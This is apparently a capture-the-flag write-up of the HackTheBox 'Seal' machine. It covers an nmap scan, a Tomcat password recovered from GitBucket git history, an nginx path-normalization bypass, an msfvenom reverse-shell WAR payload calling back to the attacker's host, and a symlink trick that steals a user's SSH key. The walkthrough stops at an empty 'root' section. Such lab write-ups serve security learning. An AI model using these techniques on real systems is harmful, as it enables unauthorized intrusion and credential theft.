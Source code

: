 ```yaml
---
title: Seal HackTheBox
published: true
tags: htb tomcat path normalization msfvenom git history GitBucket ansible
---
```


## Recon

```bash
nmap -sC -sV -Ao nmap 10.10.10.250
```

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-02 08:33 CEST
Nmap scan report for 10.10.10.250
Host is up (0.023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:89:47:39:67:3d:07:31:5e:3f:4c:27:41:1f:f9:67 (RSA)
|   256 04:a7:4f:39:95:65:c5:b0:8d:d5:49:2e:d8:44:00:36 (ECDSA)
|_  256 b4:5e:83:93:c5:42:49:de:71:25:92:71:23:b1:85:54 (ED25519)
443/tcp  open  ssl/http   nginx 1.18.0 (Ubuntu)
|_http-title: Seal Market
| ssl-cert: Subject: commonName=seal.htb/organizationName=Seal Pvt Ltd/stateOrProvinceName=London/countryName=UK
| Not valid before: 2021-05-05T10:24:03
|_Not valid after:  2022-05-05T10:24:03
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http-proxy
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node01j0kvq70qbpqj11e6pkvdnh6s32.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   GetRequest:
|     HTTP/1.1 401 Unauthorized
|     Date: Fri, 02 Sep 2022 06:32:56 GMT
|     Set-Cookie: JSESSIONID=node05fxtqecve3hh15vos2gljmegx0.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.1 200 OK
|     Date: Fri, 02 Sep 2022 06:32:57 GMT
|     Set-Cookie: JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1.node0; Path=/; HttpOnly
|     Expires: Thu, 01 Jan 1970 00:00:00 GMT
|     Content-Type: text/html;charset=utf-8
|     Allow: GET,HEAD,POST,OPTIONS
|     Content-Length: 0
|   RPCCheck:
|     HTTP/1.1 400 Illegal character OTEXT=0x80
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 71
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character OTEXT=0x80</pre>
|   RTSPRequest:
|     HTTP/1.1 505 Unknown Version
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 58
|     Connection: close
|     <h1>Bad Message 505</h1><pre>reason: Unknown Version</pre>
|   Socks4:
|     HTTP/1.1 400 Illegal character CNTL=0x4
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|     <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x4</pre>
|   Socks5:
|     HTTP/1.1 400 Illegal character CNTL=0x5
|     Content-Type: text/html;charset=iso-8859-1
|     Content-Length: 69
|     Connection: close
|_    <h1>Bad Message 400</h1><pre>reason: Illegal character CNTL=0x5</pre>
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=9/2%Time=6311A3A4%P=x86_64-pc-linux-gnu%r(Get
SF:Request,F4,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:\x20Fri,\x2002\x20
SF:Sep\x202022\x2006:32:56\x20GMT\r\nSet-Cookie:\x20JSESSIONID=node05fxtqe
SF:cve3hh15vos2gljmegx0\.node0;\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,
SF:\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-Type:\x20text/html;
SF:charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(HTTPOptions,106,"HTTP
SF:/1\.1\x20200\x20OK\r\nDate:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x2
SF:0GMT\r\nSet-Cookie:\x20JSESSIONID=node0sh26ekxv2537kx25ph8zd1m1\.node0;
SF:\x20Path=/;\x20HttpOnly\r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:
SF:00:00\x20GMT\r\nContent-Type:\x20text/html;charset=utf-8\r\nAllow:\x20G
SF:ET,HEAD,POST,OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,AD
SF:,"HTTP/1\.1\x20505\x20Unknown\x20Version\r\nContent-Type:\x20text/html;
SF:charset=iso-8859-1\r\nContent-Length:\x2058\r\nConnection:\x20close\r\n
SF:\r\n<h1>Bad\x20Message\x20505</h1><pre>reason:\x20Unknown\x20Version</p
SF:re>")%r(FourOhFourRequest,F5,"HTTP/1\.1\x20401\x20Unauthorized\r\nDate:
SF:\x20Fri,\x2002\x20Sep\x202022\x2006:32:57\x20GMT\r\nSet-Cookie:\x20JSES
SF:SIONID=node01j0kvq70qbpqj11e6pkvdnh6s32\.node0;\x20Path=/;\x20HttpOnly\
SF:r\nExpires:\x20Thu,\x2001\x20Jan\x201970\x2000:00:00\x20GMT\r\nContent-
SF:Type:\x20text/html;charset=utf-8\r\nContent-Length:\x200\r\n\r\n")%r(So
SF:cks5,C3,"HTTP/1\.1\x20400\x20Illegal\x20character\x20CNTL=0x5\r\nConten
SF:t-Type:\x20text/html;charset=iso-8859-1\r\nContent-Length:\x2069\r\nCon
SF:nection:\x20close\r\n\r\n<h1>Bad\x20Message\x20400</h1><pre>reason:\x20
SF:Illegal\x20character\x20CNTL=0x5</pre>")%r(Socks4,C3,"HTTP/1\.1\x20400\
SF:x20Illegal\x20character\x20CNTL=0x4\r\nContent-Type:\x20text/html;chars
SF:et=iso-8859-1\r\nContent-Length:\x2069\r\nConnection:\x20close\r\n\r\n<
SF:h1>Bad\x20Message\x20400</h1><pre>reason:\x20Illegal\x20character\x20CN
SF:TL=0x4</pre>")%r(RPCCheck,C7,"HTTP/1\.1\x20400\x20Illegal\x20character\
SF:x20OTEXT=0x80\r\nContent-Type:\x20text/html;charset=iso-8859-1\r\nConte
SF:nt-Length:\x2071\r\nConnection:\x20close\r\n\r\n<h1>Bad\x20Message\x204
SF:00</h1><pre>reason:\x20Illegal\x20character\x20OTEXT=0x80</pre>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
```

## Interpretation

There are three open ports: 22, 443 and 8080.

## Port 443

The website on port 433 seems to be not vulnerable. 
There are two input possibilities but basic xss, sqli testing reveals nothing interesting. 

## Port 8080

The application on port 8080 is GitBucket. Basic or default credentials are not wirking to login so creating a new account seems to be the way to go. We have access to two repositories. In the tomcat folder in the `tomcat-users.xml` there is no user entry but the git history reveals a deleted tomcat user with the credentials: `tomcat:42MrHBf*z8{Z%`. This password can be reused for the GitBucket service as user luis but this had no further impact. More looking around reveals that there is a nginx reverse proxy running which blocks requests to for example `/manager/html`

## Path traversal

This combination of tomcat and nginx is most often vulnerable to a path traversal attack as explained [here](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf). `10.10.10.250/manager;name=dennis/html/` did the trick because `/manager;name=dennis/html` doesn't match the pattern `/manager/html` checked by nginx so it forwards the request to the tomcat. The application server normalizes the reqest and throws the `;name=dennis`-part away so tomcat sees only `/manager/html`. For the managersite the previous found credentials are working so we have access to the admin panel. 

## Exploit

Creating an exploit which we can upload to the tomcat. 

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.4 lport=4242 -f war -o rev.war7
```

Upload the war-File to the adminpanel and deploy it to the tomcat. 

### Notes to deploying to tomcat

1. Logically the request have to be intercepted with burpsuite because the deploy-Button has links to `/manager/html/upload...` which is blocked by nginx. So the path traversal should again be applied.
2. I had to add the host name to my `/etc/hosts`-file but I don't know why.

## Luis Shell    

From tomcat user we have to get shell as luis. Therefore we look around and find an [ansible](https://www.ansible.com/) playbook. This playbook under `/opt/backups/playbook` creates backups from `/var/lib/tomcat9/webapps/ROOT/admin/dashboard`. Luckily the `uploads` directory is writable by everybody. We have to symlink to home-directory from luis to that directory so next time a backup is created the home directory is also in this backup. 
```bash
ln -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/
tar zxf backup-2021-09-04-07\:59\:32.gz --force-local
cd luis/.ssh
```
We can get the `id_rsa` file from luis and connect via ssh with his private key. Don't forget to set the wright permissions to the keyfile `chmod 600 key.luis`

```bash
ssh -i key.luis luis@seal.htb
```

## root
